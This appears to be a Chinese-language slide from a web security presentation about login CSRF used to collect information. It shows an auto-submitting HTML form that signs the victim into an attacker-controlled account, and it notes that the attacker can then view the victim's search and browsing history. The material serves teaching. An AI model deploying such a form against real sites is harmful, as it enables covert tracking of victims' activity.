

# 基于CSRF收集信息
<form action="https://victim-app.io/login">
    <input name="user" value="attacker">
    <input name="password" value="blah23">
</form>
<script>document.forms[0].submit();</script>

诱导受害者以黑客身份登录
可以查看被攻击者做了哪些事情
搜索记录
浏览记录
…